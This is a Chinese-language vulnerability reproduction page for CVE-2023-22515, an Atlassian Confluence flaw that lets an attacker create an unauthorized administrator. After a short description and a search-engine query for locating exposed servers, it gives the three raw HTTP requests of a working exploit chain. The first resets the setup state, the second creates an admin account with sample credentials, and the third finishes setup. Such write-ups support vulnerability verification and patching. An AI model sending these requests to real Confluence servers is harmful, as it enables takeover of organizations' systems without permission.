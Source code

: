 # Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

<a-checkbox checked>Atlassian Confluence</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-9159064.png)

验证POC

```php
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![img](../../../.vuepress/public/img/1697624725476-31dd0dd6-1d0a-4542-bafe-3ab5097a7bb5.png)

```php
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![img](../../../.vuepress/public/img/1697624750262-a2d22c1e-b935-4ce4-9d39-105074f54914.png)

```php
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![img](../../../.vuepress/public/img/1697624779864-7545cb71-80b8-4698-ba28-fa62df4918df.png)